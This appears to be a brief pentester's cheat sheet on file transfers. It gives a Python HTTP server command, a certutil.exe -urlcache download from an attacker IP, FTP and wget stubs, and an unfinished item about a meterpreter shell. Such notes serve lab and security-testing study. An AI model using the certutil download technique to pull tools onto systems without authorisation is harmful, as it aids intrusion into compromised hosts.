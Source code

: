 # File Transfers

## Hosting Files
```bash
python3 -m http.server 80
```

## Certutil
```bash
certutil.exe -urlcache -f http://<ip>/<filename> <filename to save file as to system>

certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt
```

## Browser
```bash
Navigate directly to file
```

## FTP
- Linux
```bash
python -m pyftpdlib 21
```
- Windows
```bash
fpt 10.10.10.10
```

## Linux
```bash
wget
```

## Metasploit
- after getting meterpreter shell
